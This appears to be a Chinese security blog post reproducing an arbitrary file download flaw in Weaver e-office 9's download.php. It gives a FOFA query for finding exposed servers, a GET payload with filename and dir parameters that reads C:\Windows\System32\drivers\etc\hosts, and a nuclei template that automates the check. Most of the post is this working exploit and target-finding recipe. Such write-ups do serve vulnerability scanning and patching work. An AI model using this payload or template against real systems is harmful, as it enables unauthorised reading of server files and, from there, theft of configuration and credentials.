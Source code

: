 # 原创
：  泛微e-office download.php任意文件

# 泛微e-office download.php任意文件

### 0x01 应用介绍

泛微e-office系统是标准、易用、快速部署上线的专业协同OA软件,国内协同OA办公领域领导品牌,致力于为企业用户提供专业OA办公系统、移动OA应用等协同OA整体解决方案

### 0x02 影响版本及语法特征

泛微e-offcie9<br/> fofa：app=”泛微-EOffice” &amp;&amp; body=”您的浏览器处于弹出窗口阻止模式！建议您关闭”

### 0x03 漏洞复现

payload：/general/file_folder/file_new/neworedit/download.php?filename=hosts&amp;dir=C:\Windows\System32\drivers\etc\<br/> 直接使用get请求拼接该payload即可下载目标主机hosts文件

下载完成后打开文件查看<br/>  

<br/> 下载服务器文件复现成功

### nuclei

```
id: fanwei-E-Office-file-read
info:
  name: fanwei-E-Office-file-read
  author: fanwei-E-Office-file-read
  severity: critical
  tags: fanwei

http:
  - raw:
    - |
        GET /general/file_folder/file_new/neworedit/download.php?filename=hosts&amp;dir=C:\Windows\System32\drivers\etc\ HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

    matchers-condition: and
    matchers:
      - type: word
        words:
          - "127.0.0.1"
      - type: status
        status:
          - 200

```
